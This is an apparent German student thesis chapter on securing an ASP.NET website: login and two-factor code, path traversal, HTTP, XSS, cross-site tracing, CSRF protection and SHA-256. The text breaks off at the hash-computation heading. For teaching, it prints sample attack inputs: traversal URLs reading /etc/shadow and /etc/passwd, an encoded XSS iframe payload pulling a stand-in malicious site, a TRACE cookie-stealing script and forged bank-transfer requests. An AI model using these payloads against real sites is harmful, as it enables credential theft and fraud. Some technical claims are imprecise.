\renewcommand{\theauthor}{Marcel Stering}
\chapter{Webseite-Security}
\label{sec:Security}
In diesem Abschnitt wird die Security der Webseite behandelt.
Es wird behandelt, wie das sichere Einloggen in eine Webseite gewährt werden kann, wie sich vor XSS/CSRF geschützt werden kann, wie SQL Injections vermieden werden können und wie Passwörter sicher gespeichert werden. Es werden generell alle Themen behandelt, die bei der Erstellung einer sicheren Webseite zu beachten sind. Dazu werden auch einige Code Beispiele angeführt werden.
\section{Login Handling}
\label{sec:Login}
Die Webseite soll eine Login-Funktion haben, die es einem Nutzer des ICAL-Webservices erlaubt auf seine derzeitig vorhandenen Kalender zuzugreifen.\\Dafür muss unsere Webseite eine passende sichere Authentifizierung für Benutzer anbieten. Diese Benutzerdaten müssen natürlich verschlüsselt in einer Datenbank gespeichert werden. 
\subsection{Der Login Code}
\label{sec:Login_Handling_Code}
\begin{lstlisting}[caption={Login}]
/* Hier wird die HTTP-Methode festgelegt.Es wird festgelegt ob nicht angemeldete User die Erlaubnis haben diese Methode zu nutzen und der Anti-Request-Forgery-Token wird gesetzt. */
[HttpPost]
[AllowAnonymous]
[ValidateAntiForgeryToken]
public async Task<IActionResult> Login(LoginViewModel model, string returnUrl = null)
{
	//setzen der ReturnUrl
    ViewData["ReturnUrl"] = returnUrl;
        if (ModelState.IsValid)
        {
        	//Aufrufen des PasswordSignInAsync und abpruefen ob der Login erfolgreich war.
            var result = await _signInManager.PasswordSignInAsync(model.Email, model.Password, model.RememberMe, lockoutOnFailure: false);
            if (result.Succeeded)
            {
                _logger.LogInformation("User logged in.");
                return RedirectToLocal(returnUrl);
            }
            if (result.RequiresTwoFactor)
            {
                return RedirectToAction(nameof(LoginWith2fa), new { returnUrl, model.RememberMe });
            }
            //Ebenso abpruefen ob der User ausgeloggt ist.
            if (result.IsLockedOut)
            {
                _logger.LogWarning("User account locked out.");
                return RedirectToAction(nameof(Lockout));
            }
            else
            {
                ModelState.AddModelError(string.Empty, "Invalid login attempt.");
                return View(model);
            }
        }

    return View(model);
}
\end{lstlisting}
Was beispielsweise eine View ist wird im Kapitel Webseite MVC Views erklärt. 
\section{Two-Factor-Auth}
\label{sec:2fa}
\subsection{Was ist Two-Factor Authentication}
Die Zweifaktorauthentifizierung (2FA) ist eine Art der Multi-Faktor-Authentifizierung. Es ist eine Methode, mit der der Benutzer über zwei verschiedene Faktoren seine Identität bestätigen kann.\\
Die dabei geltenden Faktoren lauten:
\begin{enumerate}
\item etwas, das sie wissen
\item etwas, das sie haben
\item etwas, das sie sind
\end{enumerate}
Ein gutes Beispiel für die Zweifaktorauthentifizierung ist die Behebung von Geld an einem Geldautomaten. Nur die korrekte Kombination einer Bankkarte (die der Benutzer besitzt) und einer PIN (die der Benutzer weiß) ermöglicht die Durchführung der Transaktion.\\Der Anmeldevorgang bei Google wäre ein neumoderneres Beispiel für die Zweifaktorauthentifizierung. Hierbei muss zuerst das Benutzerpasswort eingegeben werden, danach muss das eigene Smartphone über Passwort, Pin oder Fingerprint entsperrt werden und das Einloggen erlaubt werden. 
\\ vgl. \textcite{2FA}
\subsection{2FA Login Code}
\label{sec:2FALogin}
\begin{lstlisting}[caption={Login}]
[HttpGet]
[AllowAnonymous]
public async Task<IActionResult> LoginWith2fa(bool rememberMe, string returnUrl = null)
 {
//Hier wird eine variable ,welche die 2FA Methode aufruft, initialisiert.
    var user = await _signInManager.GetTwoFactorAuthenticationUserAsync();
//Gibt die Methode GetTwoFactorAuthenticationUserAsync null zurueck wird eine Exception 	    geworfen
     if (user == null)
     {
       throw new ApplicationException($"Unable to load two-factor authentication user.");
     }
//Wenn nicht wird LoginWith2faViewModel erzeugt.
     var model = new LoginWith2faViewModel { RememberMe = rememberMe };
     ViewData["ReturnUrl"] = returnUrl;

    return View(model);
}

[HttpPost]
[AllowAnonymous]
[ValidateAntiForgeryToken]
public async Task<IActionResult> LoginWith2fa(LoginWith2faViewModel model, bool rememberMe, string returnUrl = null)
{
     if (!ModelState.IsValid)
     {
          return View(model);
     }

     var user = await _signInManager.GetTwoFactorAuthenticationUserAsync();
     if (user == null)
     {
          throw new ApplicationException($"Unable to load user with ID '{_userManager.GetUserId(User)}'.");
     }

     var authenticatorCode = model.TwoFactorCode.Replace(" ", string.Empty).Replace("-", string.Empty);

     var result = await _signInManager.TwoFactorAuthenticatorSignInAsync(authenticatorCode, rememberMe, model.RememberMachine);

     if (result.Succeeded)
     {
          _logger.LogInformation("User with ID {UserId} logged in with 2fa.", user.Id);
          return RedirectToLocal(returnUrl);
     }
     else if (result.IsLockedOut)
     {
          _logger.LogWarning("User with ID {UserId} account locked out.", user.Id);
          return RedirectToAction(nameof(Lockout));
     }
     else
     {
          _logger.LogWarning("Invalid authenticator code entered for user with ID {UserId}.", user.Id);
          ModelState.AddModelError(string.Empty, "Invalid authenticator code.");
          return View();
     }
}
\end{lstlisting}
\section{Path-Traversal}
\label{sec:Path-Traversal}
Als Path-Traversal wird eine Security Schwachstelle bezeichnet, die es einem Angreifer erlaubt, durch Manipulation des URLs auf Daten zuzugreifen, auf die er nicht zugriffen können dürfte. 
\subsection{Grundprinzip}
\label{sec:PT_GP}
Es sollte nicht möglich sein auf Dateien, die sich außerhalb vom Web-Directory befinden, zugreifen zu können. Beim Path-Traversal versucht der Angreifer durch Beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. Dafür benutzt der Angreifer ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele ist ersichtlich, dass diese Schwäche einem erlaubt lokale Passwörter und Windows Konfigurationsdateien auszulesen.  
\\
Unter Linux ist diese Schwäche kritischer, da sie dort Zugriff auf die komplette Festplatte gewährt. In Windows kann lediglich auf das lokale Verzeichnis zugegriffen werden, in welchem sich die Webseite befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese Seite Code zu injizieren, mit dem noch mehr Möglichkeiten verschafft werden können. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\\ vgl. \textcite{Path-Trav}
\section{HTTP-Protokoll}
Da sich die fortführenden Themen mit dem HTTP-Protokoll und HTTP Requests beschäftigen werden, wird in diesem Kapitel kurz das Hypertext Transfer Protocol (HTTP) erklärt.
\subsection{HTTP-Allgemein}
Das Hypertext Transfer Protocol läuft auf Port 80/TCP und ist für die Übertragung von Daten zuständig.
\subsection{HTTP-Funktionsweise}
Das Hypertext Transfer Protocol kommuniziert auf dem Client-Server-Prinzip. Bedeutet das der HTTP-Client(ein Browser) eine Anfrage (eine sogenannte HTTP-Request) an einen HTTP-Server sendet. Der Server analysiert die Anfrage und antwortet mit einer HTTP-Response. Die Kommunikation endet mit der Antwort des HTTP-Servers. Diese Kommunikation wird in Textform abgehalten. Die Meldungen werden wie bereits erwähnt HTTP-Request und HTTP-Response genannt und diese bestehen aus einem Header und Daten. Dieser Header enthält alle notwendigen Steuerinformationen. Die HTTP-Daten sind abhängig von wem sie gesendet werden, werden diese vom Server gesendet sind sie zumeist ein File, werden sie jedoch vom Client gesendet enthalten diese Daten von den Nutzereingaben, die dieser getätigt hat.
\subsection{HTTP-Request}
Nun wird die HTTP-Request behandelt, welche wie bereits erwähnt in den weiteren Kapiteln eine Rolle spielen wird.\\Der HTTP-Request ist eine Anfrage vom Client an einen Server, dieser Request besteht aus einer Methode,einer URL und dem Request-Header. Die häufigst genutzten Methoden sind POST und GET, da damit die Hauptkommunikation von Server und Client funktioniert. Auf die Methode folgt, durch Leerzeichen getrennt, der URL und die verwendete HTTP-Version. Danach kommt der Header und bei der Methode POST die Formulardaten.
\subsubsection{HTTP-Request-Header}
\begin{enumerate}
\item Methode URL HTTP/Version
\item General Header
\item Request Header
\item Entity Header (optional)
\item Leerzeile (!)
\item Request Entity (falls vorhanden)
\end{enumerate}
\subsubsection{Header-Methoden}
In diesem Abschnitt werden die für die weiterführenden Kapiteln relevanten Header-Methoden erklärt.
\paragraph{Methoden}
\begin{enumerate}
\item GET
\item POST
\item HEAD
\item PUT
\item OPTIONS
\item DELETE
\item TRACE
\item CONNECT
\end{enumerate}
\paragraph{GET}:\\Die GET-Methode hat als Zweck eine HTML-Datei oder eine andere Quelle vom HTTP-Server anzufordern. Die Quelle wird durch den URL festgelegt. Über GET können beispielsweise auch Formulardaten übermittelt werden. Diese werden in codierter Form an den URL angehängt. Die Trennung von URL und Formular Daten erfolgt dabei durch ein Fragezeichen(?).
\paragraph{Beispiel HTTP-GET Request mit Postman}
\begin{lstlisting}[caption={HTTP GET}]
GET / HTTP/1.1
Host: www.htl-kaindorf.at
Content-Type: application/x-www-form-urlencoded
cache-control: no-cache
Postman-Token: d5bf16bd-2c73-4911-8a4c-c33d13dfa6ad
\end{lstlisting}
\paragraph{POST}:\\Die POST-Methode ähnelt der GET-Methode in der Funktion, jedoch wird sie zum senden von Formulardaten an ein serverseitiges Skript verwendet. Hierbei werden die Daten im Entity-Bereich durch eine Leerzeile getrennt und vom Header übertragen.
\paragraph{Beispiel HTTP-POST Request mit Postman}
\begin{lstlisting}[caption={HTTP POST}]
POST / HTTP/1.1
Host: www.google.com
Content-Type: application/x-www-form-urlencoded
cache-control: no-cache
Postman-Token: b632b3e6-a87f-4ba6-80eb-e3c6c701710b
firstname=Marcellastname=Stering
\end{lstlisting}
Hier wurden an den Host www.google.com die Formular-Daten ''firstname=Marcel'' und ''lastname=Stering'' gesendet.
\paragraph{Trace}:\\Mit der TRACE-Methode werden HTTP-Requests, zwichen Client und Server über einen/mehrere Proxy-Server verfolgt. Die während der Übertragung angesprungenen Server stehen hierbei dann im Headerfeld unter "Via".
\section{XSS Protection}
\label{sec:xss}
\subsection{Allgemeines über XSS}
\label{sec:xss_allgemein}
XSS steht für Cross-Site-Scripting und ist eine Security Schwachstelle, welche es ausnutzt, dass ein Webseitenadministrator nicht davon ausgeht, dass eine gewisse Art von Benutzereingabe getätigt wird. Meist nutzt ein Angreifer diese Schwäche, um einen bösartigen Code auszuführen. Beispiele dafür werden später noch behandelt werden. Trotz des hohen Bekanntheitsgrades von Cross-Site-Scripting ist diese Schwachstelle immer noch auf der OWASP Top 10, welche die häufigsten Security Schwachstellen Jahr für Jahr auflistet. Bei dem Ausnutzen von XSS wird nicht direkt eine Person angegriffen, sondern diese Schwachstelle wird genutzt, um beispielsweise ein bösartiges Skript auf der Webseite zu platzieren, welches dann von einem nichts ahnenden Benutzer aufgerufen wird.
\subsection{XSS Targets:}
\label{sec:xss_targets}
\begin{enumerate}
\item Javascript (wobei Javascript das beliebteste ist) 
\item VBScript 
\item ActiveX
\item Flash
\end{enumerate}
\subsection{Warum ist Javascript so beliebt?}
\label{sec:xss_why}
Der Grund hierfür ist, dass Javascript eine fundamentale Einheit einer Webseite ist. Es ist kaum noch eine Webseite zu finden, welche kein Javascript verwendet.
\subsection{Beliebte Angriffsvektoren}
\label{sec:xss_bel_agg}
\begin{enumerate}
\item Session Hijacking
\item Website-Defacements 
\item Phishing
\end{enumerate}
vgl. \textcite{XSS}
\subsection{Session Hijacking}
\label{sec:xss_session_hijacking}
Beim Session Hijacking werden, wie es einem der Name schon verrät, Sessions von Webseiten übernommen. Meist bemerkt ein Benutzer gar nicht das seine Session von einem Angreifer übernommen worden ist. Das Hauptziel ist dabei, dass überwachen von Aktivitäten bzw. Datendiebstahl. Sehr problematisch wird es, wenn eine Administratorsession zugänglich wird und der Angreifer so auf einen Administrator Account zugreifen kann. Bei so einem Vorfall hat der Angreifer dann alle Rechte und kann sich so zusagen austoben, wie er will. Daraus ist ersichtlich, dass eine kleine Cross-Site-Scripting Schwachstelle ausreicht, um viel Schaden anrichten zu können. 
\subsection{Website-Defacements}
\label{sec:xss_web_def}
Website-Defacements ist mit Graffiti der realen Welt zu vergleichen, nur eben in digitaler Form. Hier wird XSS genutzt, um sich den Zugriff auf die Webseite zu verschaffen und diese dann optisch zu verändern. 
\subsection{Phishing}
\label{sec:xss_phishing}
Im Prinzip ist Phishing die Intention mit Fake Webseiten oder E-Mails an vertrauliche Daten eines Users zu kommen. Ein Beispiel wäre mit einer gefälschten Facebook Loginseite an die Loginaten eines Benutzers zu kommen.\\Doch wie hängt das mit XSS zusammen?\\Eine URL enthält sehr oft eine Abfragezeichenfolge. Diese werden benutzt, um beliebige Werte zu übergeben. Beispielsweise würde die URL
\url{ http://www.Sehr-Sichere-Webseite.com/program?value} den Parameter value an das Programm schicken.Und hier kommt Cross-Site-Scripting ins Spiel, denn hier könnte wieder etwas Bösartiges übergeben werden.\\Ein Angreifer könnte jetzt diese Schwäche ausnutzen, um zu eine anderen Webseite weiterzuleiten und selbst noch etwas hinzufügen, beispielsweise der Abfrage von Login Daten. \\Beispiel\\
\url{http://www.EineFinanzseite.com/?q=%3Cscript%3Edocument.write%28%22%3Ciframe+src%3D%27
http%3A%2F%2Fwww.BoeseSeite.com%27+
FRAMEBORDER%3D%270%27+WIDTH%3D%27800%27+HEIGHT%3D%27640%27
+scrolling%3D%27auto%27%3E%3C%2Fiframe%3E%22%29%3C%2Fscript%3E&...=...&... } \\
Wobei die Modulowerte in Hexadezimal folgendes darstellen\\ \\
3C == \textless{}\\
3E == \textgreater{}\\
28 == (\\             
22 == "\\            
3D == =\\            
27 == '\\            
3A == :\\            
2F == /\\           
29 == )\\ \\
Es ergibt sich daraus \\
\url{http://www.EineFinanzseite.com/?q=<script>document.write("<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>")</script>&...=...&...">}
\\Beim Ausführen wird dann HTML Code eingefügt 
\\
<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>
\\
Diese IFrame beinhaltet jetzt Code von der Bösen Seite und ermöglicht dem Angreifer eingegebene Daten vom Benutzer zu sehen. 
\\ vgl. \textcite{Phishing}
\subsection{Cross-Site-Tracing XST}
\label{sec:CSTXST}
Beim Cross-Site-Tracing werden XSS und die HTTP-Methoden TRACE oder Track verwendet. TRACE ermöglicht dem Client, zu sehen, was am anderen Ende der Anforderungskette empfangen wird, und diese Daten für Test- oder Diagnoseinformationen zu verwenden.Die TRACK-Methode funktioniert fast gleich, ist jedoch spezifisch für IIS von Microsoft. Cross-Site-Tracing kann als Methode zum Stehlen von User-Cookies über Cross-Site-Scripting verwendet werden. Auch wenn für den Cookie das Kennzeichen "HttpOnly" gesetzt ist.
\\ \\
Obwohl die TRACE-Methode scheinbar harmlos ist, kann sie in einigen Szenarien erfolgreich eingesetzt werden, um die Berechtigungsnachweise legitimer Benutzer zu stehlen. Diese Angriffsmethode wurde 2003 von Jeremiah Grossman entdeckt, um den HttpOnly-Tag zu umgehen, den Microsoft in Internet Explorer 6 sp1 eingeführt hat, um Cookies vor dem Zugriff durch JavaScript zu schützen. Tatsächlich besteht eines der am häufigsten auftretenden Angriffsmuster in Cross Site Scripting darin, auf das document.cookie -Objekt zuzugreifen und es an einen vom Angreifer kontrollierten Webserver zu senden, damit er die Sitzung des Opfers übernehmen kann. Das Markieren eines Cookies als HttpOnly verbietet JavaScript das Stehlen dieses Cookies und damit kann dieser Cookie nicht an Dritte weitergegeben werden. Die TRACE-Methode kann jedoch verwendet werden, um diesen Schutz zu umgehen und auf das Cookie selbst in diesem Szenario zuzugreifen.
\\
Modernere Browser verhindern das TRACE über JavaScript gesendet werden kann.
\pagebreak
\subsection{Beispiel}
\label{sec:cst_bsp}
\begin{lstlisting}[caption={Cross Site Tracing}]
<script>
  var xmlhttp = new XMLHttpRequest();
  var url = 'http://127.0.0.1/';

  xmlhttp.withCredentials = true; // send cookie header
  xmlhttp.open('TRACE', url, false);
  xmlhttp.send();
</script>
\end{lstlisting}
vgl. \textcite{XST}
\subsection{Wie wird XSS Protection gewährleistet}
\label{sec:xss_prot}
Die Webseite beschränkt sich generell auf wenige Eingabefelder, wo eine Standard XSS versucht werden könnte. Alle diese Eingabefelder erlauben keine Tags oder Sonderzeichen. Auch Url Parameter können nie direkt gesetzt werden und somit fällt auch der URL als möglicher Einstiegspunkt weg.\\ \\Alle Eingabefelder
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_XSS_img1}
    \caption{Webseite Eingabefeld 1}
    \label{fig:webxxs1}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_XSS_img2}
    \caption{Webseite Eingabefeld 2}
    \label{fig:webxxs1}
\end{figure}
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_XSS_img3}
    \caption{Webseite Eingabefeld 3}
    \label{fig:webxxs1}
\end{figure}
In den URLs werden durch MVC und passende Implementierung nie Parameter gesendet bei denen es möglich wäre XSS Code einzufügen.\\
Dadurch hat unsere Webseite eine Funktionierende XSS Protection.
\section{XSRF/CSRF Protection}
\label{sec:csrf}
\subsection{Was ist XSRF/CSRF}
\label{sec:xsrf_what}
CSRF steht für Cross-Site-Request-Forgery. CSRF ist ein Angriff, bei dem das Opfer dazu gebracht wird, eine böswillige Anfrage zu übermitteln. Der Angreifer erbt dabei die Identität und die Privilegien des Opfers und kann beispielsweise eine unerwünschte Funktion im Namen des Opfers ausführen. Bei den meisten Webseiten enthalten Browseranforderungen automatisch alle mit der Webseite verknüpften Anmeldeinformationen, zum Beispiel Sessioncookies des Benutzers, IP-Adresse, Anmeldeinformationen der Windowsdomäne usw. Wenn der Benutzer derzeit für die Seite authentifiziert ist, hat die Seite keine Möglichkeit, zwischen der vom Opfer gesendeten gefälschten Anfrage und einer vom Opfer gesendeten legitimen Anfrage zu unterscheiden.
\\
Eine CSRF zielt oft darauf Daten zu verändern. Beispielsweise das Kennwort und die Email eines Kontos oder das Kaufen eines Gegenstandes.Bei einem CSRF-Angriff wird immer der derzeitige Benutzer, der sie ausführt, benachrichtigt, daher zielen CSRF-Angriffe auf Zustandsänderungsanforderungen ab.
\\
Es ist manchmal möglich, den CSRF-Angriff auf der verwundbaren Seite selbst zu speichern. Das kann durch einfaches Speichern eines IMG- oder IFRAME-Tags in einem HTML-fähigen Feld oder durch einen komplexeren Cross-Site-Scripting-Angriff erreicht werden. Wenn der Angreifer einen CSRF-Angriff in der Seite speichern kann, wird der Schweregrad des Angriffs erhöht. 
\subsection{Wie Funktioniert eine Solche Attacke}
\label{sec:xsrf_how}
Es wird eine bösartige URL oder ein bösartiges Skript gebaut und das Opfer wird dazu gebracht, die bösartige URL oder das bösartige Skript aufzurufen. 
\\
Beispiel
\begin{lstlisting}[caption={CSRF example}]
GET http://bank.com/transfer.do?acct=Angreiger&amount=1000 HTTP/1.1
\end{lstlisting}
Oder
\begin{lstlisting}[caption={CSRF example 2}]
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>
\end{lstlisting}
Auch eine Post Request ist möglich
\\
\begin{lstlisting}[caption={CSRF example 3}]
POST http://bank.com/transfer.do HTTP/1.1
acct=Angreifer&amount=1000
\end{lstlisting}
vgl. \textcite{CSRF}
\subsection{Verhindern}
\label{sec:xsrf_prevent}
Zuerst wird kurz das Thema Cross-Site Request Forgery wiederholt, um die folgenden Erklärungen nachvollziehen zu können. Bei Cross-Site Request Forgery wird ein Benutzer unbewusst dazu gebracht eine Funktion einer Webseite auszuführen, die oftmals keine gutwilligen Absichten hat.\\ \\Um dies zu verhindern ist eine funktionierende und sichere Authentifikation notwendig. \\ \\Die oft beliebteste Form der Authentifizierung ist die Cookie basierende Authentifizierung. Aber auch die auf Token basierenden Authentifizierungssysteme werden immer beliebter, insbesondere für Single Page Applications. Die wichtigsten dieser Typen werden jetzt behandelt.
\subsubsection{Cookie}
Wenn ein Benutzer sich mit seinem Benutzernamen und Kennwort authentifiziert, bekommt dieser einen für ihn erstellten Token ausgestellt. Dieser Token enthält ein Authentifizierungsticket, welches zur Authentifizierung und Autorisierung verwendet werden kann. Besagter Token wird als ein Cookie gespeichert, welcher dann bei jeder Request des Benutzers im HTTP Header vorhanden ist. Das Generieren und Validieren dieses Cookies wird von der Cookie Authentication Middleware durchgeführt. Die Middleware serialisiert einen Benutzer-Principal in einen verschlüsselten Cookie. Bei nachfolgenden Anforderungen validiert die Middleware das Cookie, erstellt den Principal neu und weist den Principal der User-Eigenschaft von HttpContext zu.
\begin{figure}[H]
    
\includegraphics[width=\textwidth]{Webseite_MVC_Cookies}
    \caption{Webseite Cookies}
    \label{fig:webcookies}
\end{figure}
\subsubsection{Token}
Wenn ein Benutzer authentifiziert ist, wird ihm ein Token ausgestellt. Dieser Token enthält Benutzerinformationen oder ein Referenztoken, welcher auf den verwalteten Benutzerstatus verweist. Wenn ein Benutzer versucht, auf eine Ressource zuzugreifen, die eine Authentifizierung erfordert, wird dieser Token mit einem zusätzlichen Header in Form eines Bearer-Token an die Anwendung gesendet. Dies macht die Anwendung zustandslos. In jeder nachfolgenden Request wird dieser Token in der Anforderung zur serverseitigen Überprüfung übergeben. Dieser Token wird nicht kryptografisch verschlüsselt sondern encodiert. Auf dem Server wird dieser Token dann decodiert, um auf seine Informationen zugreifen zu können. Dieser Token wird lokal im Browser gespeichert, dadurch ist CSRF keine Gefahr mehr, da der Token nicht als Cookie gesetzt wurde.
\subsubsection{ASP.NET Core antiforgery Konfiguration}
Seit ASP.NET Core 2.0 wird automatisch in jedem Form-Feld im Hintergrund ein Antiforgery Token.
\begin{lstlisting}[caption={ASP.NET Antiforgery}]
<form method="post">
    ...
</form>
\end{lstlisting}
Zum Abschalten dieses Features muss die Form folgendermaßen aussehen.
\begin{lstlisting}[caption={ASP.NET Antiforgery deaktivieren}]
<form method="post" asp-antiforgery="false">
    ...
</form>
\end{lstlisting}
Der häufigste Ansatz zur Abwehr von CSRF-Angriffen ist die Verwendung des Synchronizer Token Pattern (STP). STP wird verwendet, wenn der Benutzer eine Seite mit Formulardaten anfordert:\\Der Server sendet einen Token, welcher der Identität des aktuellen Benutzers zugeordnet ist, an den Client.Der Client sendet diesen Token zur Überprüfung an den Server zurück.Wenn der Server einen Token erhält, welcher nicht mit der Identität des authentifizierten Benutzers übereinstimmt, wird die Anforderung zurückgewiesen.\\Dieser Token ist einzigartig. Der Token kann auch verwendet werden, um eine ordnungsgemäße Sequenzierung einer Reihe von Requests sicherzustellen (Beispielsweise wenn mehrere Requests an mehrere Seiten gesendet werden). Alle Formulare in ASP.NET Core MVC- und Razor Pages generieren Antiforgery-Tokens.\\ \\Beispiel\\
\begin{lstlisting}[caption={ASP.NET Antiforgery form header}]
<form action="/" method="post">
    @Html.AntiForgeryToken()
</form>
\end{lstlisting}
Dies generiert.\\
\begin{lstlisting}[caption={ASP.NET Antiforgery generierter input}]
<input name="__RequestVerificationToken" type="hidden" value="CfDJ8NrAkS ... s2-m9Yw">
\end{lstlisting}
vgl. \textcite{CSRF-Protection}
%https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-2.2
\section{Hashes}
\label{hash-expl}
Die Erklärung von Hashes wird mit einem Beispiel begonnen.\\Ziel ist es ein File von einem Computer zu einem anderen Computer zu schicken und es ist dabei festzustellen, dass es sich nicht verändert hat. Um das zu gewährleisten, gibt es Hash Algorithmen. Ein Hash ist eine Einwegfunktion, heißt es ist möglich einen Hash für ein File zu berechnen aber nicht aus dem Hash ein File zu berechnen.\\
Drei Sachen sind bei einem Hash Algorithmus wichtig.
\begin{enumerate}
\item Geschwindigkeit
\item Ändert sich 1-bit sollte der gesamte Hash anders sein
\item Hash Kollisionen müssen verhindert werden
\end{enumerate}
\subsection{Hash Kollisionen}
\label{sec:hash_coll}
Ein wichtiges Dokument, welches der Leitung in der IT geschickt wird, soll unverändert übertragen werden. Mit dem Dokument kommt der Hash , damit die IT verifizieren kann, dass jenes Dokument auch das richtige ist. Ist es jetzt dem Angreifer möglich das File zu bekommen und zu verändern, würde der Hash ein anderer sein. Ist der Hash Algorithmus aber nicht richtig implementiert und somit nicht funktionsfähig ist, es möglich für das File den originalen Hash festzulegen.
\\
Beispiele
\begin{enumerate}
\item MD5
\item SHA1
\end{enumerate}
Der Faktor Schnelligkeit ist sehr relevant, ist der Algorithmus zu langsam will ihn keiner nutzen, ist er aber zu schnell, ist es recht einfach ein Dokument zu erstellen, welches zwar anders ist aber denselben Hash, als das Orginal hat.
\section{Wie funktioniert ein Hash Algorithmus}
\label{sec:hash_algo}
Wie ein Hash Algorithmus grundsätzlich arbeitet wird anhand von SHA-256 erklärt werden. 
\subsection{Allgemeines über SHA256}
\label{sec:hash_sha}
SHA256(secure hash algorithm) ist ein kryptografischer Hash mit einer Zeichenlänge von 256 Bits. Es ist eine schlüssellose Hash-Funktion.
\\
Eine Nachricht wird in jeweils 512 Bitblöcken (16 * 32 Bits) abgearbeitet und jeder Block benötigt 64 Runden.
\subsection{Der Algorithmus}
\label{sec:hash_sha_alg}
Basis Operationen
\begin{enumerate}
\item Boolesche Operationen
\begin{enumerate}
\item AND
\item XOR
\item OR
\end{enumerate}
\item Bitweises Komplement
\item Integer-Addition Modulo $2^{32}$, bezeichnet mit A + B.
\end{enumerate}
Jede dieser Operationen arbeitet mit 32 Bit. Bei der letzten Operation wird der Input von Binär in Integer übersetzt und in Dezimal Basis geschrieben.\\
Wobei
\begin{enumerate}
\item RotR (A, n) bezeichnet die zirkulare Verschiebung von n Bits des Binärworts A nach rechts
\item ShR (A, n) bezeichnet die Rechtsverschiebung von n Bits des Binärworts A
\item AkB bezeichnet die Verkettung der Binärwörter A und B
\end{enumerate}
SHA256 benutzt folgende Funktionen\\ \\
$Ch(X,Y,Z) = (X\wedge Y) \bigoplus (\overline{X}\wedge Z)\\
Maj(X,Y,Z) = (X\wedge Y) \bigoplus (X\wedge Z) \bigoplus (Y\wedge Z)\\
\; \; \sum_0(X) = RotR(X,2) \bigoplus RotR(X,13) \bigoplus RotR(X,22) \\
\; \; \sum_1(X) = RotR(X,6) \bigoplus RotR(X,11) \bigoplus RotR(X,25) \\
\; \; \sigma_0 = RotR(X,7) \bigoplus RotR(X,18) \bigoplus ShR(X,3)\\
\; \; \sigma_1 = RotR(X,17) \bigoplus RotR(X,19) \bigoplus ShR(X,10)\\
$
\subsubsection{Das Padding}
\label{sec:hash_padd}
Das Padding stellt sicher, dass die Nachricht ein Vielfaches von 512 Bits ist. Dafür wird folgendes getan.
\begin{enumerate}
\item Zuerst wird ein Bit 1 angehängt,
\item Als nächstes werden k Bits 0 angehängt, wobei k die kleinste positive ganze Zahl ist, so dass l + 1 + k $<=$ 448 mod 512, wobei l die Länge der ursprünglichen Nachricht in Bits ist
\item Schließlich wird die Länge l $<$ $2^{64}$ der ursprünglichen Nachricht mit genau 64 Bits und diese werden am Ende der Nachricht hinzugefügt
\end{enumerate}
Die Nachricht wird immer aufgefüllt, auch wenn die Anfangslänge bereits ein Vielfaches von 512 ist.
\subsubsection{Block decomposition}
\label{sec:hash_block_deco}
Für jeden Block M $\in$ $(0, 1)^{512}$ , 64 Wörter aus 32 Bits wird folgendermaßem vorgegangen. 
\begin{enumerate}
\item Die ersten 16 werden durch aufteilen von M in 32-Bit-Blöcke erhalten
\item Die restlichen 48 werden durch folgende Formel erhalten.
\end{enumerate}
Formel 1:
\\
$M = W_1 || W_2 || ... || W_{15} || W_{16}$\\ \\
Formel 2:\\
$W_i = \sigma_1(W_{i-2}) + W_{i-7} + \sigma_0(W_{i-15}) + W_{i-16},
17 \leq  i \leq  64.$\\
\subsubsection{Hash-computation}
\label{sec:hash-computation}
